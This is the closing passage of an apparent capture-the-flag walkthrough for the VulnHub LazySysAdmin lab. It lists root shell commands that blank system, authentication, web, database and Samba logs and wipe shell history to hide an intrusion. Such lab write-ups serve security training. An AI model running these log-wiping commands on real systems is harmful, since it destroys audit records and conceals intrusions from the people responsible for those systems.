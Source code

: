 ## Clearing Tracks
---

Well... If this was a real scenario, you would not want to leave bread crumbs behind. 

Since you are root, you can do whatever you want as root.
So the following commands should clear most of your tracks..
```sh
echo ' ' > /var/log/syslog
echo ' ' > /var/log/auth.log
echo ' ' > /var/log/inspircd.log
echo ' ' > /var/log/apache2/access.log
echo ' ' > /var/log/apache2/error.log
echo ' ' > /var/log/mysql/error.log
echo ' ' > /var/log/mysql.err
echo ' ' > /var/log/mysql.log
echo ' ' > /var/log/samba/log.[Attacker machine IP Address]
echo ' ' > /var/log/wtmp
rm .bash_history
history -c
```

## The End
---
And that's it! Successfully found the treasure! (which is proof.txt)



[lazysysadmin]: https://www.vulnhub.com/entry/lazysysadmin-1,205/
[smbenum]: https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_enumshares
[normalscan]: https://i.imgur.com/ma90k0e.png
[pingscan]: https://i.imgur.com/l9VoGJK.png
[smbdir]: https://i.imgur.com/Wd06UeM.png
[wphome]: https://i.imgur.com/nzT6JBN.png